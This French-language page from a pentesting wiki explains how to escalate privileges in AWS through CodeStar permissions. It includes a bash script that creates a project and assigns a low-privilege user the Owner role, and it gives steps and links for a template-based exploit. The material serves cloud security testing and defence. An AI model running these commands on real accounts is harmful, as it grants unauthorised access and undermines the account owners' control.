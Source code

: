 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

Vous pouvez trouver plus d'informations sur codestar dans :

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

Avec ces permissions, vous pouvez **abuser d'un rôle IAM codestar** pour effectuer des **actions arbitraires** via un **modèle cloudformation**. Consultez la page suivante :

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Cette technique utilise `codestar:CreateProject` pour créer un projet codestar, et `codestar:AssociateTeamMember` pour faire d'un utilisateur IAM le **propriétaire** d'un nouveau **projet** CodeStar, ce qui leur accordera une **nouvelle politique avec quelques permissions supplémentaires**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Si vous êtes déjà un **membre du projet**, vous pouvez utiliser la permission **`codestar:UpdateTeamMember`** pour **mettre à jour votre rôle** en tant que propriétaire au lieu de `codestar:AssociateTeamMember`.

**Impact potentiel :** Privesc à la politique codestar générée. Vous pouvez trouver un exemple de cette politique dans :

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **Créer un nouveau projet :**
- Utilisez l'action **`codestar:CreateProjectFromTemplate`** pour initier la création d'un nouveau projet.
- Une fois la création réussie, l'accès est automatiquement accordé pour **`cloudformation:UpdateStack`**.
- Cet accès cible spécifiquement une pile associée au rôle IAM `CodeStarWorker-<nom de projet générique>-CloudFormation`.
2. **Mettre à jour la pile cible :**
- Avec les permissions CloudFormation accordées, procédez à la mise à jour de la pile spécifiée.
- Le nom de la pile conformera généralement à l'un des deux modèles :
- `awscodestar-<nom de projet générique>-infrastructure`
- `awscodestar-<nom de projet générique>-lambda`
- Le nom exact dépend du modèle choisi (référencer le script d'exploitation exemple).
3. **Accès et permissions :**
- Après la mise à jour, vous obtenez les capacités assignées au **rôle IAM CloudFormation** lié à la pile.
- Remarque : Cela ne fournit pas intrinsèquement des privilèges d'administrateur complets. Des ressources mal configurées supplémentaires dans l'environnement pourraient être nécessaires pour élever davantage les privilèges.

Pour plus d'informations, consultez la recherche originale : [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Vous pouvez trouver l'exploitation dans [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Impact potentiel :** Privesc au rôle IAM cloudformation.

{{#include ../../../../banners/hacktricks-training.md}}
